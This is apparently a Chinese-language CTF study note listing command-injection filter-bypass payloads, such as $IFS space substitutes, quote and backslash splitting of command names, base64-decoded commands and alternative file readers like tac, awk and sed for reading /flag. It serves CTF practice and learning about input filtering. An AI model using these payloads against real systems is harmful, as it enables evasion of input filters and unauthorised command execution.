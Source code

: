 tags:: CTF/RCE

- 空格
	- `$IFS // 注意后面不能接上字母`
	- `${IFS}`
	- `$IFS$1 //1改成其他数字貌似都行`
	- `cat<flag.php`
	- `<>`
	- `{cat,flag.php}`
	- `%20`
	- `%09&&`
- 反斜杠
	- `l\s`
	- 也可以这样：`tac<f\ile`
- 单引号
	- `'l's`
	- 也可以这样：`tac<f'i'le`
- 双引号
	- `"l"s`
- 命令拼接，内联执行
	- `a='l';b=s;$a$b`
- base64 编码
	- `echo d2hvYW1p | base64 -d`
- `ls`:
	- `dir`
- `cat`或文件名被 waf
  id:: 42eb4318-43ea-4079-963d-61943df49a8c
	- `curl file:///flag`
	- `head /flag`
	- `tail /flag`
	- `tac /flag`
	- `tac /fla?`
	- `tac /fla"g"`
	- `tac /fla'g'`
	- `awk '{print $0}' /flag`
	- `sed q100 /flag`
		- 读取前 99 行
	- `nl /fl?g`
	- `env cat /flag`
	- `uniq`
	- `strings`
	- `cut`
	- `od`
	- `less`
	- `more`
	- `sort`
	- `hexdump`
	- `rev`